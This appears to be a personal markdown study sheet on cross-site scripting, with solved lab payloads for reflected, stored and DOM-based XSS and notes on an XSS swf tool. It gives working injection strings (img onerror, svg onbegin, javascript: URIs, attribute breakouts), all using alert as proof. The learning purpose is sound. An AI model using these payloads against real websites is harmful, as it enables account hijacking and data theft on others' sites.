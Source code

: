 # XSS is the most known client side vulnerbility
## Types OF XSS
- Reflected XSS
- DOM Based XSS
- Stored XSS 
- Blind XSS

## There are client side frameworks can trigger xss in different methods
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Reflected XSS into HTML context with nothing encoded
```bash
https://0a88007603bad0a4808b0d0000230035.web-security-academy.net/?search=%3Cimg%20src=c%20onerror=%22alert(1)%22%20/.
```

### Stored XSS into HTML context with nothing encoded
```bash
in comment
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

### DOM XSS in document.write sink using source
```bash
Website writes the userinput inside an image tag so
'ls" onload="alert(1)"'
this is enough
```

### DOM XSS in innerHTML sink using source location.search
```bash
input was reflecting inside a span tag
lola"><img%20src=x%20onerror="alert(1)"/>
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
```bash
There was a controlable url parameter return path when i click back button 
it redirected me to that path
?redirect=/shop
i changed it to ?redirect=javascript:alert(1);
and back button <a href="javascript:alert(1)">
```

### Reflected XSS into attribute with angle brackets HTML-encoded
```bash
Reflected Inside Input Value Tag
"onmouseover="alert(1)
Solved
```

### XSS via swf file upload
```bash
git url : https://github.com/evilcos/xss.swf
location to url: xss.swf?a=location&c=http://www.google.com/
open url to new window: xss.swf?a=open&c=http://www.google.com/
http request to url: xss.swf?a=get&c=http://www.google.com/
eval js codz: xss.swf?a=eval&c=alert(document.domain)
```
